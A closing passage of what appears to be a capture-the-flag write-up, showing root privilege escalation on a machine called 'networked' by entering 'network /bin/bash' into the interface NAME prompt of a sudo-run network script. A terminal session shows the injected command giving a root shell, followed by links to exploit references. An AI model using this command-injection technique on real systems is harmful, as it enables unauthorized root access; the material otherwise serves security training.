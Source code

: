 Let's give this a try by providing the following text when we are prompted to insert a value for the "interface NAME. Notice that the value before the space is arbitrary, but the value after the space has to be a valid command in order to get the code execution:

> network /bin/bash

```
[guly@networked network-scripts]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
network /bin/bash
network /bin/bash
interface PROXY_METHOD:
none
none
interface BROWSER_ONLY:
no
no
interface BOOTPROTO:
dhcp
dhcp
[root@networked network-scripts]# id
id
uid=0(root) gid=0(root) groups=0(root)
[root@networked network-scripts]# 

```

&#x20;​ ​ ​ ​ ​

## Resources

{% embed url="https://www.php.net/manual/en/funcref.php" %}

{% embed url="https://thecyberjedi.com/php-shell-in-a-jpeg-aka-froghopper" %}

{% embed url="https://en.wikipedia.org/wiki/List_of_file_signatures" %}

{% embed url="https://seclists.org/fulldisclosure/2019/Apr/27" %}

{% embed url="https://book.hacktricks.xyz/linux-unix/privilege-escalation#etc-sysconfig-network-scripts-centos-redhat" %}

